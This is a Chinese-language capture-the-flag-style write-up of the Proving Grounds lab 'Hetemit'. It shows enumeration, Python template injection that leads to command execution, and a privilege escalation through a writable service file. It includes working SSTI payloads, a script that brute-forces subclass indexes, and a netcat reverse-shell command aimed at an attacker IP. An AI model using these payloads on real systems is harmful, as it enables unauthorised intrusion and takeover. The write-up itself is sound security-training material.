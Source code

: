 ```yaml
---
title: Proving Grounds Practice-Hetemit
date: 2025-6-04 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息收集

## nmap

![image-20250604161401044](./Hetemit/image-20250604161401044.png)

![image-20250604161408959](./Hetemit/image-20250604161408959.png)

# web

## 80端口

80端口是apache服务器默认页面，并且扫目录也没有有用信息

## 18000端口

18000端口可以注册和登录，但是注册需要邀请码

## 50000端口

从请求头中可以看到服务器后端是python写的

![image-20250604171637380](./Hetemit/image-20250604171637380.png)

### SSTI模板注入

访问`verify`回显`code`，尝试将`code`作为参数分别以`get`和`post`提交,以get提交时回显还是code，以post提交命令执行时会显示500，服务器错误，但是提交数学表达式时可以正常回显

![image-20250604164604100](./Hetemit/image-20250604164604100.png)

![image-20250604164555968](./Hetemit/image-20250604164555968.png)

这里就联想到ssti模板注入，简单测试一下的确可以回显方法

![image-20250604164628049](./Hetemit/image-20250604164628049.png)

构造ssti模板注入语句，这里对payload做一个解释

```
"".__class__.__base__.__subclasses__()[117].__init__.__globals__['__builtins__']['eval'](./"__import__('os').popen('ls').read()")

尝试时118也是可以命令执行的
```



> _\_class__:查看当前类型的所属对象
>
> _\_base__:查看当前对象的父类
>
> _\_mro__::查看当前对象的所有父类
>
> _\_subclassses__()：查看当前父类下的所有子类
>
> _\_subclassses__()[1]：查看当前父类下的第二个子类，0表示第一个
>
> _\_init__:查看是否重载，重载是指程序在运行时就已经加载好了这个模块到内存中，如果出现wrapper字眼，说明没有重载
>
> _\_globals__:返回当前对象的全部全局变量，查看可以使用的函数
>
> _\_builtins__:提供对Python的所有内置标识符的直接访问
>
> eval()计算字符串表达式的值
>
> popen()：执行一个shell以运行命令来开启一个进程
>
> 117是os._wrap_close

如何找到117号是这个方法呢，可以使用`"".__class__.__base__.__subclasses__()`回显所有子类，然后将所有子类粘贴出来之后将逗号替换为换行，删除没用的信息，使用notepad可以直接显示行数，还需要注意的是notepad显示的行数是118，但是该方法的参数中0表示的是第一个，所以117才是`os._wrap_close`

也可以使用python脚本来实现

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"code":"().__class__.__base__.__subclasses__()["+str(i)+"]"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'os._wrap_close' in str(response.content):
                print(i)
    except:
        pass

```

![image-20250604173148785](./Hetemit/image-20250604173148785.png)

可以成功命令执行之后就可以反弹shell

```
code="".__class__.__base__.__subclasses__()[117].__init__.__globals__['__builtins__']['eval'](./"__import__('os').popen('nc 192.168.45.243 80 -e /bin/bash').read()")
```

![image-20250604173946639](./Hetemit/image-20250604173946639.png)

# 提权

![image-20250604175429536](./Hetemit/image-20250604175429536.png)

修改该文件中execstart的命令，和启用的user，为了再靶机中修改需要得到一个稳定的shell，可以使用[brightio/penelope: Penelope Shell Handler](./https://github.com/brightio/penelope?source=post_page-----a66be76a6503---------------------------------------)

![image-20250605113913855](./Hetemit/image-20250605113913855.png)

并且cmeeks用户还有重启的权限，修改之后重启靶机，攻击机监听指定端口就可以得到root的shell

![image-20250605114104607](./Hetemit/image-20250605114104607.png)

![image-20250605114028913](./Hetemit/image-20250605114028913.png)